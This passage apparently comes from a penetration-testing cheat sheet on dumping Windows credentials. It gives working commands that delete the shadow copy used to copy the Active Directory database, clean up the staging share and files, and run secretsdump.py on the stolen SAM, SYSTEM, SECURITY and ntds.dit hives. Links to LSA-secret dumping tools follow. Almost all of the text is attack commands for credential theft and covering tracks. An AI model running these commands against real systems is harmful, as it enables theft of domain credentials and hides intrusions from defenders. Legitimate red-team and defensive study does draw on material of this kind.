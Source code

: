 Delete shadow volume:

```
powershell -c "Add-Content delete_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content delete_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content delete_vol.txt 'set verbose on'"
powershell -c "Add-Content delete_vol.txt 'unexpose w:'"
powershell -c "Add-Content delete_vol.txt 'delete shadows volume c:'"
powershell -c "Add-Content delete_vol.txt 'reset'"
cmd /c diskshadow.exe /s delete_vol.txt
```

```
// delete_vol.txt
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
unexpose w:
delete shadows volume c:
reset
```

Clean up:

```
cmd /c net share pentest /delete
rm -re -fo C:\smb_pentest
rm C:\Windows\Temp\meta.cab
rm add_vol.txt
rm delete_vol.txt
```

Parse secrets:

```
$ secretsdump.py [-pwd-last-set] [-user-status] [-history] -sam sam.hive -system system.hive -security security.hive -ntds ntds.dit LOCAL
```



## LSA secrets

* [https://www.passcape.com/index.php?section=docsys&cmd=details&id=23](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)



### SharpSecDump

* [https://github.com/G0ldenGunSec/SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1)
